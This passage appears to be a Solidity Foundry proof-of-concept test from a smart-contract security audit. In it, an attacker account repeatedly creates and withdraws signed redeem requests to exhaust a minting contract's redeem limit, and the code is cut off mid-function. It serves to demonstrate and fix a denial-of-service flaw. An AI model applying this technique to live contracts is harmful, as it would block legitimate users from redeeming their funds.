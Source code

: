 ```solidity
        // Configure redeem limit
        minting.setRedeemLimits(redeemPeriodDuration, redeemLimitAmount);

        // Fund attacker with YUSD
        yusd.mint(attacker, 10000 ether);
        vm.prank(attacker);
        yusd.approve(address(minting), type(uint256).max);

        // Fund legit user with YUSD
        yusd.mint(legitUser, 100 ether);
        vm.prank(legitUser);
        yusd.approve(address(minting), type(uint256).max);
    }

    function testExploit() public {
        console.log("Starting exploit test...");
        vm.startPrank(attacker);

        uint256 initialYUSDBalance = yusd.balanceOf(attacker);
        console.log("Initial attacker YUSD balance:", initialYUSDBalance);

        uint256 redeemAmountPerRequest = 100 ether;
        uint256 numRequests = redeemLimitAmount / redeemAmountPerRequest;
        console.log("Number of requests to fill limit:", numRequests);

        for (uint256 i = 0; i < numRequests; i++) {
            string memory requestId = string(abi.encodePacked("exploit-", vm.toString(i)));
            console.log("Creating redeem request:", i, "with ID:", requestId);

            OrderLib.Order memory order = OrderLib.Order({
                orderType: OrderLib.OrderType.REDEEM,
                userWallet: attacker,
                collateralAsset: collateralAsset,
                collateralAmount: 100 ether,
                yusdAmount: redeemAmountPerRequest,
                slippageAdjustedAmount: 95 ether,
                expiry: block.timestamp,
                nonce: i,
                additionalData: abi.encode(requestId)
            });

            bytes32 digest = OrderLib.hashOrder(order, minting.getDomainSeparator());
            (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, digest);
            bytes memory signature = abi.encodePacked(r, s, v);

            minting.requestRedeem(order, signature);
            console.log("Redeem request created for ID:", requestId);

            minting.withdrawRedeemRequest(requestId);
            console.log("Redeem request withdrawn for ID:", requestId);
        }

        // Verify redeem limit is filled
        (
            uint32 periodDuration,
            uint32 currentPeriodStartTime,
            uint256 maxPeriodAmount,
            uint256 currentPeriodTotalAmount
        ) = minting.redeemLimit();
        console.log("Redeem limit details:");
        console.log("  Period duration:", periodDuration);
        console.log("  Current period start time:", currentPeriodStartTime);
        console.log("  Max period amount:", maxPeriodAmount);
```
